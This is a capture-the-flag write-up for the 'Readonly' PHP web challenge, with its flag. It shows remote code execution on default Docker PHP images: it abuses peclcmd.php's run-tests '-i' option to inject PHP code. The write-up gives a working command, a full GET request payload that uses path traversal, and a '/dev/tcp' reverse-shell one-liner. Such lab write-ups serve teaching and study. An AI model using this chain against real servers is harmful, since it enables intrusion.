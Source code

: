 # Readonly

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{phpphpphpphpphpphp_41f8b2a8fd1c4e58b361e6dd0ffe9343}`

## Description

I am committing the cardinal sin of writing not just one, but two PHP challenges for the same CTF. At least this one has birds.

## Difficulty

Easy

## Deployment

`docker-compose up -d`

## Solution

This is basically last year's [Sourceless Guessy Web](https://github.com/Social-Engineering-Experts/SEETF-2022-Public/tree/main/web/sourceless-guessy-web), but the PHP container is read-only.

The default Docker PHP installation is used, which means that `register_argc_argv` is enabled, and PEAR is installed. This means that we can use the GET query parameters to pass command-line arguments to `/usr/local/lib/php/peclcmd.php` and run `peclcmd.php` as a PHP script.

The most well-known methods to achieve RCE through including `peclcmd.php` involve writing a webshell to disk (e.g. using `config-create`), and then including it. However, this is not possible in this challenge, because the PHP container is read-only.

We can take a look at the other commands available in `peclcmd.php`:

```text
$ php pearcmd.php
Commands:
build                  Build an Extension From C Source
bundle                 Unpacks a Pecl Package
channel-add            Add a Channel
channel-alias          Specify an alias to a channel name
channel-delete         Remove a Channel From the List
channel-discover       Initialize a Channel from its server
channel-info           Retrieve Information on a Channel
channel-login          Connects and authenticates to remote channel server
channel-logout         Logs out from the remote channel server
channel-update         Update an Existing Channel
clear-cache            Clear Web Services Cache
config-create          Create a Default configuration file
config-get             Show One Setting
config-help            Show Information About Setting
config-set             Change Setting
config-show            Show All Settings
convert                Convert a package.xml 1.0 to package.xml 2.0 format
cvsdiff                Run a "cvs diff" for all files in a package
cvstag                 Set CVS Release Tag
download               Download Package
download-all           Downloads each available package from the default channel
info                   Display information about a package
install                Install Package
list                   List Installed Packages In The Default Channel
list-all               List All Packages
list-channels          List Available Channels
list-files             List Files In Installed Package
list-upgrades          List Available Upgrades
login                  Connects and authenticates to remote server [Deprecated in favor of channel-login]
logout                 Logs out from the remote server [Deprecated in favor of channel-logout]
makerpm                Builds an RPM spec file from a PEAR package
package                Build Package
package-dependencies   Show package dependencies
package-validate       Validate Package Consistency
pickle                 Build PECL Package
remote-info            Information About Remote Packages
remote-list            List Remote Packages
run-scripts            Run Post-Install Scripts bundled with a package
run-tests              Run Regression Tests
search                 Search remote package database
shell-test             Shell Script Test
sign                   Sign a package distribution file
svntag                 Set SVN Release Tag
uninstall              Un-install Package
update-channels        Update the Channel List
upgrade                Upgrade Package
upgrade-all            Upgrade All Packages [Deprecated in favor of calling upgrade with no parameters]
Usage: pear [options] command [command-options] <parameters>
Type "pear help options" to list all options.
Type "pear help shortcuts" to list all command shortcuts.
Type "pear help version" or "pear version" to list version information.
Type "pear help <command>" to get the help for the specified command.
```

One of these commands is `run-tests`.

```text
$ php peclcmd.php help run-tests
pecl run-tests [options] [testfile|dir ...]
Run regression tests with PHP's regression testing script (run-tests.php).
Options:
  -r, --recur
        Run tests in child directories, recursively.  4 dirs deep maximum
  -i SETTINGS, --ini=SETTINGS
        actual string of settings to pass to php in format " -d setting=blah"
  -l, --realtimelog
        Log test runs/results as they are run
  -q, --quiet
        Only display detail for failed tests
  -s, --simple
        Display simple output for all tests
  -p, --package
        Treat parameters as installed packages from which to run tests
  -u, --phpunit
        Search parameters for AllTests.php, and use that to run phpunit-based tests
        If none is found, all .phpt tests will be tried instead.
  -t, --tapoutput
        Output run-tests.log in TAP-compliant format
  -c PHPCGI, --cgi=PHPCGI
        CGI php executable (needed for tests with POST/GET section)
  -x, --coverage
        Generate a code coverage report (requires Xdebug 2.0.0+)
  -d, --showdiff
        Output diff on test failure
```

Looking at the available options, we can see that we can pass a `-i` argument to set the

> actual string of settings to pass to php in format " -d setting=blah"

Interestingly, while the option is meant to be used to pass PHP INI settings, we are expected to pass a string of command-line arguments to `php` instead. This means that instead of passing `-d setting=blah`, we can pass `-r '...'` to run arbitrary PHP code.

The settings are parsed in `./PEAR/Command/Test.php`.

```php
function doRunTests($command, $options, $params)
{
    ...

     $ini_settings = '';
    if (isset($options['ini'])) {
        $ini_settings .= $options['ini'];
    }

    if (isset($_ENV['TEST_PHP_INCLUDE_PATH'])) {
        $ini_settings .= " -d include_path={$_ENV['TEST_PHP_INCLUDE_PATH']}";
    }

    if ($ini_settings) {
        $this->ui->outputData('Using INI settings: "' . $ini_settings . '"');
    }

    ...

    $result = $run->run($t, $ini_settings, $j);
}
```

The shell command is then constructed in `./PEAR/RunTest.php`. The `$ini_settings` is directly concatenated to the `php` command:

```php
function run($file, $ini_settings = array(), $test_number = 1)
{
    
    ...

    $args = $section_text['ARGS'] ? ' -- '.$section_text['ARGS'] : '';
    $cmd = $this->_preparePhpBin($this->_php, $temp_file, $ini_settings);
    $cmd.= "$args 2>&1";
}

function _preparePhpBin($php, $file, $ini_settings)
{
    $file = escapeshellarg($file);
    $cmd = $php . $ini_settings . ' -f ' . $file;

    return $cmd;
}
```

Now, all we need is a valid test file. Lucky for us, there are a few tests files already in `/usr/local/lib/php/test/Console_Getopt/tests/`:

```bash
$ find / -name "*.phpt"
/usr/local/lib/php/test/Console_Getopt/tests/001-getopt.phpt
/usr/local/lib/php/test/Console_Getopt/tests/bug10557.phpt
/usr/local/lib/php/test/Console_Getopt/tests/bug13140.phpt
/usr/local/lib/php/test/Console_Getopt/tests/bug11068.phpt
```

This allows us to craft the following valid command (which injects `sleep 5`). We avoid using spaces in the command to avoid issues with the shell escaping.

```bash
php peclcmd.php run-tests -i "-r\"system(hex2bin('736C6565702035'));\"" /usr/local/lib/php/test/Console_Getopt/tests/bug11068.phpt
```

This can be extended to get a shell by replacing the hex payload with the hex-encoded `bash -c "bash -i >& /dev/tcp/HOST/PORT 0>&1"`. Translating the `argv` to the GET parameters, we get the following request:

```http
GET /?page=../usr/local/lib/php/peclcmd.php&+run-tests+-i+-r"system(hex2bin('PAYLOAD'));"+/usr/local/lib/php/test/Console_Getopt/tests/bug11068.phpt HTTP/1.1
```

From there, we can read the flag.

```bash
www-data@abac37fa386c:/app$ /readflag
SEE{phpphpphpphpphpphp_41f8b2a8fd1c4e58b361e6dd0ffe9343}
www-data@abac37fa386c:/app$
```